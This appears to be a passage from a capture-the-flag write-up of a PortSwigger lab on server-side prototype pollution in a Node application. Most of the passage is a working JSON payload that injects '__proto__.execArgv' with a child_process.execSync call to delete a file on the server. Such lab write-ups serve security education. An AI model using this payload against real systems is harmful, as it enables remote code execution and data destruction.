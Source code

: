 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-9/images/Pasted%20image%2020230222202058.png)

As you can see, both jobs failed.

However, you'll also notice that several DNS interactions have been received, which can confirm the web application is indeed vulnerable to RCE via server-side prototype pollution.

> Note: The lab will block all third party traffics except Burp Collaborator domain.

**Now, we can change the OS command to `rm /home/carlos/morale.txt`!**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "QQsB0cKlcJXw90jYJXjy9WXsEDrxrMLQ",
    "__proto__": {
        "execArgv":[
            "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
        ]
    }
}
```
